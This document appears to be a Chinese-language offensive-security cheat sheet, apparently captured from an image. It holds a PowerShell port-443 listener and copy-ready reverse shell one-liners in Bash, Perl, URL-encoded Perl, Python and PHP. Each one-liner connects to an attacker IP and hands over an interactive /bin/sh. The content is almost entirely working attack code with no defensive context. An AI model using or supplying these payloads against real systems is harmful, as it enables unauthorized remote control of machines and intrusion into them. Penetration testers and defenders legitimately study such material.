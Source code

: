 ### 监听端口 \(Powershell\)

```text
# 在端口443上启动监听器
$listener = [System.Net.Sockets.TcpListener]443; $listener.Start();
 
while($true)
{
    $client = $listener.AcceptTcpClient();
    Write-Host $client.client.RemoteEndPoint "connected!";
    $client.Close();
    start-sleep -seconds 1;
}
```

## 权限取得

### 使用限制壳

#### **Bash**

```text
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

#### **Perl**

```text
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### **URL-Encoded Perl: Linux**

```text
echo%20%27use%20Socket%3B%24i%3D%2210.11.0.245%22%3B%24p%3D443%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2fbin%2fsh%20-i%22%29%3B%7D%3B%27%20%3E%20%2ftmp%2fpew%20%26%26%20%2fusr%2fbin%2fperl%20%2ftmp%2fpew
```

#### **Python**

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### **PHP**

```text
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
